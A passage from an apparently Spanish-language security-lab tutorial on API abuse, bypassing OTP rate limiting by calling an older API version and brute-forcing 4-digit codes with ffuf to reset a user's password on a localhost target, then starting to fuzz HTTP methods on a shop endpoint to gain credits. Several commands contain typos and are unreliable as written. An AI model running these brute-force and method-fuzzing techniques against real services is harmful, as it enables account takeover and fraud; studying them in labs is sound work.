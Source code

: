 ![](../../assets/VectoresDeAtaque/Abuso-de-APIs/9.jpg)

> Vamos a tratar de "bypassear" el bloqueo, como tenemos todo bien representado en "postman" , **si te fijas hay diferentes versiones en la API**, a si que vamos a tratar de usar las versiones anteriores a ver si estan mal configuradas y nos dejan hacer los intentos de "OTP" que queramos
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Abuso-de-APIs/10.jpg)

![](../../assets/VectoresDeAtaque/Abuso-de-APIs/11.jpg)

![](../../assets/VectoresDeAtaque/Abuso-de-APIs/12.jpg)

> Como vemos ahora que hemos indicado v2 nos deja hacer intentos , a si que ahora vamos a hacer fuerza bruta pero apuntando a la versión 2 de la API
{: .prompt-info }

> **Es importante recordar que el OTP tiene tiempo de caducidad a si que lo que vamos a hacer volver a generar otro para hacer las pruebas de fuerza bruta**
{: .prompt-info }

![](../../assets/VectoresDeAtaque/Abuso-de-APIs/13.jpg)

![](../../assets/VectoresDeAtaque/Abuso-de-APIs/14.jpg)

> Este seria el nuevo **OTP**

```bash
fuff -u http://localhost:8888/indetity/api/auth/v2/check-otp -w /usr/share/seclists/Fuzzing/4-digits/0000-9999.txt -X POST -d '{"email":"s4vitar#hack4u.io", "opt":"FUZZ", "passwod":"NewPass123$!"}' -H "Content-type: applicaton/json" -p 1 -mc 20
```

![](../../assets/VectoresDeAtaque/Abuso-de-APIs/15.jpg)

> Como vemos hemos conseguido cambiar ya la contraseña ya uqe la petición a sido un **"200" de codigo de estado**
{: .prompt-info }





### Nos aprovechamos de la API para añadirnos "Créditos"

![](../../assets/VectoresDeAtaque/Abuso-de-APIs/16.jpg)

> Esta seria la petición que pide los productos existentes en la web , a si que **vamos a tratar de cambiar el método de la petición para ver si nos podemos aprovechar de esto, para saber que metodos permite la web podemo hacerlo de estas maneras**
{: .prompt-info }

```bash
# Encontramos los diccionarios que contienen métodos
locate \*methods\* | grep -i seclist

#  Realizamos fuerza bruta
fuff -u http://localhost:888/workshop/api/shop/products -w /usr/share/SecLists/Fuzzing/http-request/methods.txt -X FUZZ -p 1 -mc 200,401
```
